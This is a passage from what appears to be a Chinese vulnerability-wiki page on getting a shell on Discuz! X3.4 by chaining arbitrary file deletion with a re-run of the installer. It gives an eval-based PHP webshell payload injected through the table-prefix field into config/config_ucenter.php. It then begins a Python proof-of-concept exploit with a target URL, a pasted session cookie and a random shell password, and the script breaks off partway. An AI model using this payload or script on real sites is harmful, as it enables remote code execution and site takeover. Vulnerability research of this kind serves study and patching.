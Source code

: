 安装过程修改表前缀内容为：`x');@eval($_POST[lanvnal]);('`

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId28.png)

在`config/config_ucenter.php`中已经写入了webshell。

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId29.png)

![](/Users/aresx/Documents/VulWiki/.resource/Discuz!X3.4任意文件删除配合install过程getshell/media/rId30.png)

### poc

    #!/usr/bin/env python3
    import base64
    import random
    import re
    import string

    import requests

    sess = requests.Session()
    randstr = lambda len=5: ''.join(random.choice(string.ascii_lowercase) for _ in range(len))

    ##################################################
    ########## Customize these parameters ############
    target = 'http://localhost/discuzx'
    # login target site first, and copy the cookie here
    cookie = "UM_distinctid=15bcd2339e93d6-07b5ae8b41447e-8373f6a-13c680-15bcd2339ea636; CNZZDATA1261218610=1456502094-1493792949-%7C1494255360; csrftoken=NotKIwodOQHO0gdMyCAxpMuObjs5RGdeEVxRlaGoRdOEeMSVRL0sfeTBqnlMjtlZ; Zy4Q_2132_saltkey=I9b3k299; Zy4Q_2132_lastvisit=1506763258; Zy4Q_2132_ulastactivity=0adb6Y1baPukQGRVYtBOZB3wmx4nVBRonRprfYWTiUaEbYlKzFWL; Zy4Q_2132_nofavfid=1; Zy4Q_2132_sid=rsQrgQ; Zy4Q_2132_lastact=1506787935%09home.php%09misc; 7Csx_2132_saltkey=U8nrO8Xr; TMT0_2132_saltkey=E3q5BpyX; PXMk_2132_saltkey=rGBnNWu7; b4Gi_2132_saltkey=adC4r05k; b4Gi_2132_lastvisit=1506796139; b4Gi_2132_onlineusernum=2; b4Gi_2132_sendmail=1; b4Gi_2132_seccode=1.8dab0a0c4ebfda651b; b4Gi_2132_sid=BywqMy; b4Gi_2132_ulastactivity=51c0lBFHqkUpD3mClFKDxwP%2BI0JGaY88XWTT1qtFBD6jAJUMphOL; b4Gi_2132_auth=6ebc2wCixg7l%2F6No7r54FCvtNKfp1e5%2FAdz2SlLqJRBimNpgrbxhSEnsH5%2BgP2mAvwVxOdrrpVVX3W5PqDhf; b4Gi_2132_creditnotice=0D0D2D0D0D0D0D0D0D1; b4Gi_2132_creditbase=0D0D0D0D0D0D0D0D0; b4Gi_2132_creditrule=%E6%AF%8F%E5%A4%A9%E7%99%BB%E5%BD%95; b4Gi_2132_lastcheckfeed=1%7C1506800134; b4Gi_2132_checkfollow=1; b4Gi_2132_lastact=1506800134%09misc.php%09seccode"
    shell_password = randstr()
    db_host = ''
    db_user = ''
    db_pw = ''
    db_name = ''
    #################################################

    path = '/home.php?mod=spacecp&ac=profile&op=base'
    url = target + path

    sess.headers.update({
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/61.0.3163.100 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
        'Referer': url})
